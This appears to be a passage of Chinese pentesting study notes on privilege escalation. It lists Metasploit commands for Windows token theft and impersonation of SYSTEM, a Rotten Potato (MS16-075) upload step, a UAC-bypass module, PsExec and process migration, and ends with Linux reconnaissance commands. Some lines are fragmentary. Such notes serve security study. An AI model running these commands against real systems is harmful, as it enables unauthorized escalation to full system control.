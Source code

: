 

### 3、令牌窃取

令牌(token)是系统的临时秘钥，相当于账号和密码，用来决定是否允许这次请求和判断这次请求是
属于哪一个用户的。它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源，这些令牌将持续存在于系统中，除非系统重新启动。

类型：

* 授权令牌：交互式会话登录
* 模拟令牌：非交互式登录

管理员-->system

~~~shell
# 窃取令牌
1、msf模块：
metapreter:getuid
	use incognito（盗窃目标主机的令牌或是假冒用户）
	list_tokens -u（查看令牌）
	impersonate_token "NT AUTHORITY\SYSTEM"
2、工具：mutiple database Utilization Tools
# 烂土豆提权：本地提权
烂土豆(Rotten Potato)提权是一个本地提权，是针对本地用户的，不能用于域用户。
借助提权漏洞(MS16-075)去获取令牌。
1、链接：https://hackergu.com/powerup-stealtoken-rottenpotato/
2、上传烂土豆文件：uploading ： /home/potato.exe -> C://aa//\potato.exe
execute -cH -f 
systeminfo
2017-7269

~~~

### 4、Bypass UAC绕过（UAC安全机制）

操作系统默认情况下是启用UAC，当用户运行软件就会触发UAC规则。执行的时候就需要权限，否则是不会运行的。

msf：use exploit/windows/local/bypassuac

链接：https://www.cnblogs.com/-mo-/p/12088056.html

~~~shell
# 其它提权方式
1、psexec提权：windows的内核的套件（本地提权）
PsExec属于SysInternalSuite （一个windows的内核的套件），是其中一个工具
psexec 这个工具可以以System账号执行一个程序
迁移命令：meterpreter：migrate 6432
# 第三方软件提权
~~~

## 二、Linux

### 1、收集一些系统信息

~~~shell
# 信息收集
链接：https://www.cnblogs.com/yuguangyuan/p/7895292.html
1、操作系统是什么版本？
	cat /etc/issue
	cat /etc/*-release
	cat /etc/lsb-release
	cat /etc/redhat-release
2、内核版本
	cat /proc/version
	uname -a
	uname -mrs
	rpm -q kernel
	dmesg | grep Linux
~~~